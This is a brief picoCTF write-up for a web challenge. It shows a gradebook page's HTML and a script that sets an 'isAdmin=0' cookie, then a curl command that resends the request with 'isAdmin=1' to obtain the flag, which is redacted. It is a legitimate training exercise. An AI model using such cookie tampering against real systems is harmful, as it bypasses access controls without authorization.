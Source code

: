 ## Description
Can you get the flag? Go to this website and see what you can discover.

## Solution

Viewing source code:
```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Secure Log In</title>
  </head>
  <body>
    <script src="guest.js"></script>

    <h1>Online Gradebook</h1>
    <button type="button" onclick="continueAsGuest();">Continue as guest</button>
  </body>
</html>
```

and `guest.js` is:
```javascript
function continueAsGuest()
{
  window.location.href = '/check.php';
  document.cookie = "isAdmin=0";
}
```

changing header cookie and get the flag:
```bash
curl "http://saturn.picoctf.net:57741/check.php" --header "Cookie: isAdmin=1"




<html>
<body>



<p>picoCTF{XXXXXXX}</p>


</body>
</html>
```
